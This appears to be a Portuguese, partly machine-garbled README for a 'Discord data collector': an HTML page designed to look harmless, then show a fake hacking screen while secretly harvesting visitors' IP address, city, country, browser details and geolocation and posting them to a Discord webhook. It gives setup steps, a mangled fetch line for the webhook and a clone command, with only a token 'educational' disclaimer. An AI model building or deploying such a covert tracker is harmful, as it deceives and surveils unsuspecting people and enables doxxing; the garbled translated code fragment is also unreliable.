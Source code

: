 📌 LEIA-ME - Coletor de Dados do Discord
Um projeto HTML que simula uma tela de “hack” e coleta de informações do usuário, enviando-as para um webhook do Discord.

🚀 Funcionalidades
✅ Coleta de dados do usuário (IP, localização, navegador, sistema)
✅ Tela de "hack" com efeitos visuais (Matrix, piscar de tela, glitch)
✅ Envio automático para webhook do Discord
✅ Pergunta o nome do Discord antes de mostrar a tela de hack
✅ Design inicial normal (branco) para parecer inofensivo

🛠️ Como Usar
1️⃣ Pré-requisitos
Um servidor web (ou abrir o arquivo diretamente no navegador)
Um webhook do Discord válido (para receber os dados)
2️⃣ Configuração
Substitua o webhook pelo código:

JavaScript
1 linhas
Clique para expandir
resposta const = aguarda busca ('SEU_WEBHOOK_AQUI', {
(Substitua SEU_WEBHOOK_AQUIpelo seu webhook do Discord.)

Salve como index.htmle abra no navegador.

🔍 O que o Código Faz?
📌 Fluxo do Programa
Pergunta o nome do Discord (tela branca normal).
Ao enviar o nome, aparece a tela de "hack" (efeitos visuais).
Coleta automaticamente:
IP, cidade, país
Navegador, resolução, idioma
Latitude e longitude (se permitido)
Envie tudo para o webhook do Discord.
⚠️ Avisos Legais
Este projeto é apenas para fins educacionais.
Não use para atividades maliciosas.
Sempre solicite autorização antes de coletar dados de alguém.
📥 Download e Execução
festança

Correr
Copiar código
git clone https://github.com/seu-usuario/discord-data-collector.git
cd discord-data-collector
Abra index.htmlno navegador.

📌 Exemplo de Saída no Discord
Incorporar do Discord com dados coletados

👨‍💻 Autor: [Carroça]
🔗 Licença: Carroça
  💬 Contato: [1v1.lol1]

🌟 Dica: Se quiser aprimorar, adicionar mais efeitos ou integrar APIs de geolocalização mais precisas.

